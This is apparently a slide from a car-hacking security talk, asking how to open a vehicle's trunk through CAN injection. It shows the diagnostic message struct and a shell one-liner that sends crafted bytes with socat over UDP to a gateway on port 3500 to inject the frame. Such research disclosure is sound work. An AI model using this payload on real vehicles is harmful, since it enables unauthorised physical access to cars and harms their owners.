

# 0x04 INJECT_CAN: 如何开后备箱？
struct Diag_CAN_Msg {
CHAR diag_id;	// INJECT_CAN==0x04
CHAR channel;	// CAN Channel ID,{0-6}
WORD can_id;	// CAN Msg ID
DWORD msg1;	// Messages
DWORD msg2; };

#!/bin/sh
printf "\x04\x01\x02\x48\x04\x00\x00\x04\x00\xFF\xFF\x00" | socat - udp:gw:3500